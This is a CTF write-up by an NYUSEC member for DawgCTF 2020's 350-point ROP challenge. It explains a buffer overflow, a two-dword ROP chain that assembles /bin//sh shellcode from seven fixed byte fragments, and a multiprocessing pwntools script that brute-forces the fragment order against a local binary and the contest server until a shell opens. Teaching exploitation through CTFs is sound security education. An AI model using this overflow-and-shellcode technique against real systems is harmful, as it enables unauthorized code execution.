




# DawgCTF 2020: Where we roppin boys? (350 points)

- Writeup author: John Cunnif | juanpunchman | NYUSEC
- Challenge author: trashcanna

## Overview

The rop program we are presented with is quite simple. It runs the welcome function, then the tryme function.

The welcome function mmaps a page with read write into a global variable called shellcode. 



The tryme function then has a trivial buffer overflow. We can overwrite the eip, and one more dword so there is 
no problem getting pointer control. 



There is a function called win that will mprotect the shellcode page as executable then jmp into it. Cleary this is
the final step once we have initalized out shellcode properly.



Only having two dwords for a rop chain is not a lot to work with. We can always use our first dword for one gadget or function, then
our second for the address of the tryme function. This will allow us to call as many arbitrary functions as we need.

Upon futher inspection of the binary we can see some particular functions like this:



This function loot_lake writes 4 specific bytes to the shellcode incrementing a global variable called len. 
There are seven total functions like this. Each writes a different set of 4 bytes to the shellcode
Now we can see the full picture. Some specific order of these sequences of 4 bytes will form valid shellcode
that we can then use to get shell. The question now is which sequence will give us shell?


## Solution

My solution was brute forcing all permutations of the 7 byte sequences until I got a shell. I assumed that the solution would
be a permutation of the 7, so the number of unique shellcodes we will need to test will be 7! = 5040. Because this is a lot of
programs to test, we'll want to do some cleaver multithreaded things to make things move along faster.

Our first step should be writing an oracle function. This function should take a sequence of function addresses, and return a
value that will indicate whether or not it was successful in getting shell. 

```python
def oracle(chain, local=True, stay=False):
    p = process('./rop') if local else remote('ctf.umbccd.io', 4100)
    p.recvuntil('?\n')

    """
    Since we only can overwrite the pushed eip and one more dword,
    we need to go one at a time, returning to the tryme function.
    """
    for i in chain:
        p.send('0000111122223333' + p32(i) + p32(e.sym.tryme))

    """
    Once we have our shell code written, then we can ret to the
    win function.
    """
    p.sendline('0000111122223333' + p32(e.sym.win))

    r=False
    try:
        """
        We need to let a moment pass here to let the shellcode
        execute, and hopfully open a new process. If we send
        the echo before this process starts, that input may only
        be passed to the original program.

        This sendline will error out if the rop program crashes.
        """
        time.sleep(0.5)
        p.sendline('echo abc123')

        """
        Here we're just trying to read with a one second timeout.
        If we don't get an EOF error, we probably just got shell.
        """
        if p.recv(1024, 1):
            if stay:
                p.interactive()
            r=True
    except EOFError:
        pass
    finally:
        p.close()

    return r
```

The thing that took the most amount of time here was getting the buffering correct. I suspect that most people that gave up on 
this challenge just to read the writeup were just getting the buffering messed up.

Next step is to pull out the byte sequeces of all the 7 functions that alter the shellcode. I pulled them out by hand:

```python

loot = '\xc0\x40\xcd\x80'
lonely = '\xc1\x89\xc2\xb0'
tilted = '\x31\xc0\x50\x68'
snobby = '\x68\x2f\x62\x69'
dusty = '\x0b\xcd\x80\x31'
junk = '\x2f\x2f\x73\x68'
grove = '\x6e\x89\xe3\x89'
```

It will also be nice to have a map of the byte sequence to the address of the corresponding function:

```python
e = ELF('./rop')

# ...

m = {
    grove: e.sym.greasy_grove,
    junk: e.sym.junk_junction,
    dusty: e.sym.dusty_depot,
    snobby: e.sym.snobby_shores,
    tilted: e.sym.tilted_towers,
    lonely: e.sym.lonely_lodge,
    loot: e.sym.loot_lake,
}
```

We now have everything we need to start brute forcing the shellcode sequences. I decided to use 
itertools.permutations to get the permutations of the byte sequences. From there I used pythons
multiprocessing library to make a worker Pool. Making this multiprocessing is essential for having
this brute force approach be viable. If this was single threaded, assuming that each guess of the 5040
different sequences takes 1.5 seconds to test, then the runtime would be `5040 * 1.5 = 7560 seconds = 126 minutes`.
On my machine this script runs in 7 seconds. Yay multithreading! 

With all the pieces, we can put together a full script:


```python
#!/usr/bin/python2

"""
John Cunniff
NYUSEC
DawgCTF 2020: Where we roppin boys? (350)

flag: DawgCTF{f0rtni9ht_xD}
"""

from pwn import *
import itertools
import time
import os
import multiprocessing

local = 1

context.log_level = 'warn'
context.terminal = ['/usr/bin/termite', '-e']
e = ELF('./rop')

loot = '\xc0\x40\xcd\x80'
lonely = '\xc1\x89\xc2\xb0'
tilted = '\x31\xc0\x50\x68'
snobby = '\x68\x2f\x62\x69'
dusty = '\x0b\xcd\x80\x31'
junk = '\x2f\x2f\x73\x68'
grove = '\x6e\x89\xe3\x89'

c=[
    grove,
    junk,
    dusty,
    snobby,
    tilted,
    lonely,
    loot,
]

m = {
    grove: e.sym.greasy_grove,
    junk: e.sym.junk_junction,
    dusty: e.sym.dusty_depot,
    snobby: e.sym.snobby_shores,
    tilted: e.sym.tilted_towers,
    lonely: e.sym.lonely_lodge,
    loot: e.sym.loot_lake,
}


def oracle(chain, local=True, stay=False):
    p = process('./rop') if local else remote('ctf.umbccd.io', 4100)
    p.recvuntil('?\n')

    """
    Since we only can overwrite the pushed eip and one more dword,
    we need to go one at a time, returning to the tryme function.
    """
    for i in chain:
        p.send('0000111122223333' + p32(i) + p32(e.sym.tryme))

    """
    Once we have our shell code written, then we can ret to the
    win function.
    """
    p.sendline('0000111122223333' + p32(e.sym.win))

    r=False
    try:
        """
        We need to let a moment pass here to let the shellcode
        execute, and hopfully open a new process. If we send
        the echo before this process starts, that input may only
        be passed to the original program.

        This sendline will error out if the rop program crashes.
        """
        time.sleep(0.5)
        p.sendline('echo abc123')

        """
        Here we're just trying to read with a one second timeout.
        If we don't get an EOF error, we probably just got shell.
        """
        if p.recv(1024, 1):
            if stay:
                p.interactive()
            r=True
    except EOFError:
        pass
    finally:
        p.close()

    return r


def doit(com):
    """
    Take a permutation of the shellcode fragments and transform
    them into a chain of addresses. We'll then test the chain
    with the oracle function and report if there was a success.
    """
    chain = list(map(lambda x: m[x], com))
    if oracle(chain):
        print disasm(''.join(com))
        print chain
        print '=' * 20
        return chain
    return None

"""
To speed things up, we're going to use a python multiprocessing
pool. We can deligate all the rop chain permutations to the pool.
Since python does weird stuff with their multiprocessing libraries,
we'll need to be careful to only pass back and forth simple objects
to and from the workers.
"""
pool = multiprocessing.Pool(500) # you may want to lower this on your machine
chains = pool.map(doit, itertools.permutations(c))
pool.close()

"""
Filter out the None's to just get the chains that passed.
"""
chains = filter(lambda x: x is not None, chains)

"""
Try them all to see if they work.
"""
local=0
for i in chains:
    oracle(i, False, True)
```
